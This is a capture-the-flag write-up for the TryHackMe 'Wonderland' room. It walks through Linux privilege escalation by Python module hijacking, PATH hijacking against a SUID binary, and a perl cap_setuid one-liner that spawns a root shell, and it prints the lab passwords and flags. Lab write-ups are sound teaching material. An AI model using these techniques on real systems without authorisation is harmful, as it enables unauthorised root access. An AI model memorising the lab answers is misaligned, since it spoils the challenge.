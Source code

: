 # [Wonderland](https://tryhackme.com/room/wonderland)

## Looking around the rabbit hole

After getting into http://10.10.176.220/r/a/b/b/i/t/ and inspecting the page i found a hidden p tag with this in it:

```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```

Maybe ssh password (?)

## SSH access


### alice

Well looks like it is. I could get access to the machine through ssh using the above credentials yeah!

Ok in `/home/alice` directory i found `root.txt` and `walrus_and_the_carpenter.py`. That last python file can be executed as the user `rabbit`. It just print random lines of a poem.

```
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

The file have the next line `import random` which is a relative path so... i think we can work with that. I just wrote a little fake `random.py` file with the next content:


```
import pty

def choice(something_about_a_poem):
        pty.spawn("/bin/bash")
        exit()
```

Executing `walrus_and_the_carpenter.py` now as `sudo -l` showed, will execute our fake random module and give us access to `rabbit` user:

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ 
```

### rabbit

I like to run `HOME=/home/$USER` to have the right user home directory configured in the shell.

Looks like `rabbit` has access to a SUID executable: `teaParty`. It ask you for something nice but just core dump for some reason.

I decided to download the file to my machine so i just passed the file to `alice` and download it. It is not stripped so that is cool for looking inside hehe

Ok this is funny:

```
void main(void)

{
  setuid(0x3eb);
  setgid(0x3eb);
  puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
  system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");
  puts("Ask very nicely, and I will give you some tea while you wait for him");
  getchar();
  puts("Segmentation fault (core dumped)");
  return;
}
```

First the program just print the core dumped error, lmao. Second, it set the uid to 1003 (probably the `hatter` user).

I can see that the program uses the command `date` inside the `system` function with a relative PATH. Adding `/home/rabbit` to `rabbit` PATH: `PATH="$HOME:$PATH"` and creating `date` script in it with something... funny in it will do i think. (Remember to execute `chmod a+x date``to allow the system to run the script)

Lets try it, this is my `date` script:

```
#! /bin/sh

bash -p
```

And...

```
rabbit@wonderland:~$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:~$
```

Nice!

### hatter

I found a `passwd.txt` in `hatter` home directory. It contain `WhyIsARavenLikeAWritingDesk?` that is hatter password so we got to a "checkpoint":

`hatter:WhyIsARavenLikeAWritingDesk?`

We can now conect to hatter account directly.

Looks like the user flag is not here neither. Alice had the `root.txt` file in her directory, could be possible that we can just read `/root/user.txt` or something? In wonderland the things are a bit weird so lets try i dont know:

```
hatter@wonderland:~$ cat /root/user.txt
thm{"Curiouser and curiouser!"}
```

So.. we got the user flag, nice (Totally on porpouse) lets go for the root one.

After i while i decided to execute `linpeas` and i saw something interesting:

```
Files with capabilities:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

Perl can manipulate the process UID so... lets try something:

```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash -p";'
root@wonderland:~# 
```

Jackpot! We are root, lets get that root flag with `cat /home/alice/root.txt`:

`thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}`
